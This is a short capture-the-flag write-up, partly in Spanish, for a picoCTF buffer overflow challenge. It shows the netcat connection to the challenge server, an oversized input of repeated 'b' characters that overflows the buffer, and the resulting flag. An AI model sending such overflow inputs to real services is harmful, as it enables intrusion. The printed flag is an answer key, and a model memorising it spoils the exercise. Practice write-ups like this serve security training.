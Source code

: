 
 
#### Description

Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/172/vuln). You can view source [here](https://artifacts.picoctf.net/c/172/vuln.c). And connect with it using:`nc saturn.picoctf.net 63397`

## Pistas

How can you trigger the flag to print?


## Solución

``` 
hannlec117-picoctf@webshell:~$ nc saturn.picoctf.net 63397
Input: bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}



```

## Bandera
Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}


## Notas adicionales


## Referencias
